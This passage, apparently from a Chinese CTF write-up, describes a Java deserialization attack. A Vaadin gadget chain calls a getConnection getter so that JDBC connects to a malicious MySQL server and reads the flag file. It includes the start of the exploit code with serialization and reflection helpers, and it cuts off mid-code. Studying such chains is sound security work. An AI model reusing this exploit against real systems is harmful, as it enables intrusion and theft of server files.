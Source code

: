 [![](assets/1709282823-8011c7fa3a75421d1418a96a6684c952.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162741-67a581c8-d6dc-1.png)

可以发现这里存在`getConnection`​方法，而在 Vaadin 分析中可以得知，其链子一部分是可以调用任意属性的 getter 方法的，所以在这里思路就是：调用`getConnection`​方法来控制 JDBC 来连恶意的 mysql 从而读取 flag，而已的 mysql 为

[https://github.com/fnmsd/MySQL\_Fake\_Server](https://github.com/fnmsd/MySQL_Fake_Server)

根据 Vaadin 的 exp 来修改下即可，最后的 exp(这里参考大头 Sec 的 Wp) 为

```plain
import com.ctf.bean.MyBean;
import com.vaadin.data.util.NestedMethodProperty;
import com.vaadin.data.util.PropertysetItem;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;


public class Vaadin_Ser {


    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static byte[] ser(Object obj) throws Exception{
```